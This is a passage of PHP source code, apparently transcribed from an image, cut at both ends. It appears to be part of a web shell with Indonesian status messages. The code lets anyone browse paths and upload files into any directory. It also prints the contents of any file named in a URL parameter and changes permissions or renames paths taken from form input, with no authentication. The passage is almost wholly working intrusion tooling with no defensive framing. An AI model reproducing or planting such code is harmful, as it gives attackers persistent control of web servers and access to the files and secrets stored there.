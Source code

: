 }
$path = str_replace('\\','/',$path);
$paths = explode('/',$path);

foreach($paths as $id=>$pat){
if($pat == '' && $id == 0){
$a = true;
echo '<a href="?path=/">/</a>';
continue;
}
if($pat == '') continue;
echo '<a href="?path=';
for($i=0;$i<=$id;$i++){
echo "$paths[$i]";
if($i != $id) echo "/";
}
echo '">'.$pat.'</a>/';
}
echo '</th></tr><tr>
<td align="left">';
if(isset($_FILES['file'])){
if(copy($_FILES['file']['tmp_name'],$path.'/'.$_FILES['file']['name'])){
echo '<font color="green">Upload Success..</font><br />';
}else{
echo '<font color="red">Upload Gagal..</font><br />';
}
}
echo '<form enctype="multipart/form-data" method="POST">
<input type="file" name="file" />
<input type="submit" value="Upload" />
</form>
</td></tr>';
if(isset($_GET['filesrc'])){
echo "<tr><td style='padding: 8px'>Current File : ";
echo $_GET['filesrc'];
echo '</tr></td></table><br />';
echo('<pre>'.htmlspecialchars(file_get_contents($_GET['filesrc'])).'</pre>');
}elseif(isset($_GET['option']) && $_POST['opt'] != 'delete'){
echo '</table><br /><center>'.$_POST['path'].'<br /><br />';
if($_POST['opt'] == 'chmod'){
if(isset($_POST['perm'])){
if(chmod($_POST['path'],$_POST['perm'])){
echo '<font color="green">Chmod Success..</font><br />';
}else{
echo '<font color="red">Chmod Gagal..</font><br />';
}
}
echo '<form method="POST">
Permission : <input name="perm" type="text" size="6" value="'.substr(sprintf('%o', fileperms($_POST['path'])), -4).'" />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="chmod">
<input type="submit" value="Save" />
</form>';
}elseif($_POST['opt'] == 'rename'){
if(isset($_POST['newname'])){
if(rename($_POST['path'],$path.'/'.$_POST['newname'])){
echo '<font color="green">Rename Berhasil..</font><br />';
}else{
echo '<font color="red">Rename Gagal..</font><br />';
}
$_POST['name'] = $_POST['newname'];
}
echo '<form method="POST">